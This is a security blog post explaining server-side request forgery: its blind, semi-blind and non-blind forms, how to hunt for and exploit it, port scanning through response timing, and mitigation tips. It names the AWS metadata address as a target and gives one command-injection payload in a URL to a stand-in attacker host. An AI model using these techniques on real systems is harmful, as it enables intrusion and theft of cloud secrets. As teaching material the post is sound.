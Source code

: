 ```yaml
---
title: 'SSRF Vulnerabilty'
date: 2023-02-18
permalink: /posts/2023/02/SSRF/
tags:
  - Vulnerability
  - OWASP TOP 10
  - ssrf
---
```

What is SSRF ?

SSRF stands for server-side request forgery. It is one of the most popular web security vulnerabilities exploited by hackers and security researchers.

It is a security vulnerability where an attacker can abuse the available functionalities in a server-side application to access internal server files, resources leading to potentially sensitive information disclosure.


**Types of SSRF**
======
Non-Blind SSRF: 
======
This is a type of SSRF where an application fetches the requested resource and directly presents it on the front end. The whole output is clearly visible to the user/attacker.

Blind SSRF:
======
 This is an interesting and very common type of SSRF where the HTTP request for requesting resources is made by the server but the output isn’t visible on the frontend. In simple words, the resource is requested by the server but not displayed to the user/attacker. There are certain ways of exploiting this type of SSRF vulnerabilities and we will cover them further in this blog.

Semi-blind SSRF:
====== 
In this type of SSRF, a resource is requested but the complete output isn’t visible to the user but instead it can be file metadata, parts of the file, complete file path in the form of stack trace errors, and more.

This is called semi blind because the data is partially available, unlike blind SSRF where nothing is visible on the frontend. To exploit semi-blind SSRF, similar ways of exploiting blind SSRFs can be used.
 
======
Exploitation
======
We will now cover the exploitation of the different types of SSRF cases explained above. Keep in mind that there can be unique methods of exploiting SSRF because the behavior of the application matters a lot while exploiting and validating security issues so a straightforward method may not always work.

Non-Blind SSRF
The exploitation of a regular non-blind SSRF is simple as we expect the output to be displayed directly on our screens.

It is usually when an application sends a request to fetch a resource located in the same server itself or sometimes inside external backend servers, IP addresses and virtual hostnames can be used by the web application to reach out to the external servers. If we know the address of the resource we want to access, we can use that URL/path to make the application fetch the resource and simply display it to us on the frontend.

A common scenario here is when an application is hosted on AWS or Google Cloud or other cloud services then there are link-local addresses provided by the cloud service provider to fetch internal metadata. In the case of AWS, the address is http://169.254.169.254 and if an attacker can hit this target from an SSRF vulnerable application hosted on AWS, sensitive information can be exposed.

List of Cloud Metadata fetching endpoints - https://gist.github.com/jhaddix/78cece26c91c6263653f31ba453e273b

Keep in mind that there are cases where an application blocks certain protocols, keywords so you might require bypassing some blacklists, and bypassing WAFs is a whole different topic. (I might write another blog on that one 😉)

Where to look for non-blind SSRFs?

**Non-blind SSRFs** are common in PDF generators, HTML-to-PDF converters as we can use HTML code to create an iframe with the contents of an internally located file.

For hunting SSRFs in web applications, enumerate all the endpoints well because you might get different GET/POST parameters with URL or pathnames and they are usually the most common candidates for testing SSRF vulnerabilities.

An endpoint with GET parameters like ?file= or ?resource= are more likely to be vulnerable to SSRF as the parameter name suggests a potential value of file paths and URLs. Modifying the value to internally located filenames or even external hosts can help in testing SSRFs.

**Blind SSRF**
Similar to non-blind SSRFs, we should look for endpoints where there is any type of URL or file path we can modify.

In blind SSRF, an application takes a resource address and tries to send a request to it. We can host a server we can control and use the address of it to try exploiting blind SSRFs.

If there’s an endpoint that loads images from external URLs then we can start a local server and use the address as the image URL and if the application tries to load the image from our entered URL, we should see an HTTP request in the logs of the server we control.

How to exploit it? The way to exploit blind SSRF isn’t clear. There are many different methods we can try to gain something impactful out of blind SSRFs.

One way to gain something meaningful: A vulnerable application can send a request to external hosts that we control and we can read the request headers inside our log files to gain more information about the internal infrastructure. With this method, internal IP addresses can be exposed and used for further exploitation.

The impact of blind SSRFs is usually dependent on our abilities to chain different issues together. Forming a great exploit chain can help gain something impactful out of a blind SSRF. The deployed infrastructure plays a huge role in it.

There are cases where blind SSRFs are escalated to remote code executions by injecting command injection payloads in remote URLs e.g. https://attacker.com/?param=$(whoami)

I found an awesome GitHub repository with precious knowledge on “Blind SSRF Chains” - https://github.com/assetnote/blind-ssrf-chains

**Cross-Site Port Attack (XSPA)**

Another great way to gain something impactful out of blind SSRFs is by an XSPA attack. It consists of entering the address of am internal hostname from the intranet or the web server itself so that the vulnerable application hits the target and we can determine the availability based upon the response timing or error messages.

Let’s say we enter the IP address 127.0.0.1 with different ports ranging from 8000-9000 in a parameter vulnerable to Blind-SSRF. If the usual response time is 1500ms on almost all the ports but the response from port 8443 is unusually delayed (e.g. 3000ms) then it’s often an indication that internal port 8443 is open and the rest of the ports are closed as 8443 took the longest time to respond.

Using banners, error messages, response timings, we can enumerate the infrastructure specifics, and that’s how you take advantage of blind SSRFs.

Keep in mind that not all applications that send the request to internal/external servers are exploitable, many endpoints are intended to send requests for a smooth experience and different features. To protect such endpoints from being exploited, developers use a proxy or isolated servers just to make those requests and even if an attacker gets information about those proxy servers like the IP address, it’s usually meaningless.

**Semi-blind SSRF**
It is almost similar to blind SSRF but in this type, the information revealed won’t be the complete data from the fetched resource. Instead, you might just get the file path in the server or get clues from the response if the file is available in the server or not. Exploiting this vulnerability can be done by enumerating the availability of internal files and maybe fetching some meta-data. All of it is totally dependent on the nature of the application.


Mitigation Tips
======

**Disabling unnecessary URL schemas** - SSRFs aren’t just about sending HTTP requests to internal/external hosts via the vulnerable application. Many different protocols can be used to fetch data from different kinds of infrastructure set-ups. Most common ones are dict://, gopher://, ftp://, file://. Disabling unnecessary protocols can help by reducing the attack surface for the attackers to fetch data from.
**Response Validation **- The response fetched from the HTTP requests made by the application shouldn’t be served to the user directly. There should be a validation process of data in action so only the expected input and output work.
**Authentication** - Authentication inside the local network can be used to make things harder for the attacker,
**Proxy Servers** - Proxy servers can be used to make requests and fetch resources, the server should be isolated and shouldn’t have access to the critical infrastructure and data.
------